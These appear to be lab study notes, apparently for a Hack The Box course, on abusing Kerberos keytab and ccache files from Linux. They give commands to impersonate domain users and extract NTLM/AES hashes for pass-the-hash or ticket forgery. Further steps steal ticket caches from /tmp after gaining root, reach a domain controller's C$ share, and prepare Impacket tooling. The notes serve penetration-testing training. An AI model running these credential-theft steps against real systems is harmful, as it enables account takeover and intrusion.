 ## Abusing KeyTab Files

Listing keytab File Information :

klist -k -t 

Impersonating a User with a keytab :

klist
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
klist

Connecting to SMB Share as a user :

smbclient //dc01/carlos -k -c ls


Keytab Extract :

python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 

NTLM hash -> Pass the Hash attack or crack to obtain the plaintext password
AES256 or AES128 hash -> forge our tickets using Rubeus or crack to obtain the plaintext password

## Abusing Keytab ccache

Privilege Escalation to Root :

sudo -l
sudo su

Looking for ccache Files :

ls -la /tmp

Identifying Group Membership with the id Command :

id julio@inlanefreight.htb

Importing the ccache File into our Current Session :

klist
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
klist
smbclient //dc01/C$ -k -c ls -no-pass

-> consider the values "valid starting" and "expires." If the expiration date has passed, the ticket will not work.

## Using Linux Attack Tools with Kerberos

### Preparation for using Impacket and Evil-Winrm

Host File Modified :

cat /etc/hosts
172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01

